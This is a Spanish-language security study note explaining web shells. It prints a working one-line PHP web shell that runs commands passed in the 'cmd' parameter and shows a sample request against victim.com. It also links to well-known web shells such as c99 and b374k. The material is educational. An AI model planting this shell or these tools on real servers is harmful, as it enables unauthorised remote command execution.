 ```yaml
---
layout: apunte
title: "7. Web Shell"
---
```


Una web shell es un script escrito en un lenguaje soportado por un servidor web comprometido que ejecuta comandos a través del propio servidor. Suele ser un archivo que contiene código que ejecuta comandos y controla archivos.

Pueden ser escritas en diferentes lenguajes soportados por servidores web, como PHP, ASP, JSP o CGI.

---------------------
<h2>Ejemplo de Web Shell PHP</h2>
Veamos un ejemplo de una web shell en PHP para entender cómo funciona este proceso:

```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

La shell de arriba puede guardarse en un archivo con extensión php, como `shell.php`, y luego subida a un servidor por el atacante para explotar vulnerabilidades como Unrestricted File Upload, File Inclusion, Command Injection y otras.

Después de desplegar la webshell en el servidor puede ser accedida a través de la URL. Según el ejemplo de arriba, tendríamos que realizar una petición GET con el parámetro "cmd". Si la página fuera `http://victim.com/uploads/shell.php`:

`http://victim.com/uploads/shell.php?cmd=whoami`

Esto ejecutará el comando whoami en el servidor y devolverá el resultado a través del navegador.

---------------------
<h2>Web Shells Existentes Disponibles Online</h2>
El poder de los lenguajes soportados por los servidores web puede resultar en web shells con varias funcionalidades y evitar la detección a la vez. Veamos algunas de las más populares:

- [p0wny-shell](https://github.com/flozz/p0wny-shell): Una web shell de un solo archivo PHP minimalista que permite RCE.
  ![](/apuntes/img/Pasted image 20251017174237.png)
- [b374k shell](https://github.com/b374k/b374k): Una web shell PHP más rica en funcionalidades con manejo de archivos y ejecución de comandos, entre otras funcionalidades.
  ![](/apuntes/img/Pasted image 20251017174417.png)
- [c99 shell](https://www.r57shell.net/single.php?id=13): Una web shell robusta y bien conocida con funcionalidades extensas.
  ![](/apuntes/img/Pasted image 20251017174504.png)

Si quieres encontrar más web shells: https://www.r57shell.net/index.php 

